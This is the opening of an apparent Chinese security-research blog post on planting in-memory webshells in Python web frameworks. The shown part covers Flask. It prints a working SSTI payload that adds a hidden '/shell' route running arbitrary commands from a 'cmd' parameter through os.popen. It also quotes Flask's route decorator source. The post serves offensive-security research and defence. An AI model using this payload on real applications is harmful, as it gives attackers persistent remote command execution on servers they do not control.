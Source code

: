```yaml
---
slug: tiangongarticle038
date: 2024-07-10    
title: Python Web 内存马多框架植入技术详解
author: 4uuu Nya
avatar: /authors/4uuu.png
info: 天工实验室安全研究员，Nu1L Team，Web安全与代码审计
tags: [Python, Web, 内存马]
---
```


# Python Web 内存马多框架植入技术详解

## 一、前言

内存马作为一种常见的攻击与权限维持手段，往往多见于Java Web应用中，然而在Python Web场景下却并不多见这种攻击。

本文将针对Flask、Tornado与Django三个在日常开发中使用频率较高的框架，探寻在Python Web场景下的内存马种植方法，文中所有场景均为抽象出的理想场景，仅做可行性讨论。



## 二、Flask

### 2.1 老版本Flask内存马种植方法

在网上针对Flask内存马的探讨，均在SSTI场景下，并且payload都相同，格式化后payload如下：

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

在Flask中所有定义的路由都会使用一个装饰器 `app.route`，而这个装饰器就是调用了 `add_url_rule`。

```python
@setupmethod
def route(self, rule: str, **options: t.Any) -> t.Callable[[T_route], T_route]:
    def decorator(f: T_route) -> T_route:
        endpoint = options.pop("endpoint", None)
        self.add_url_rule(rule, endpoint, f, **options)
        return f

    return decorator
```
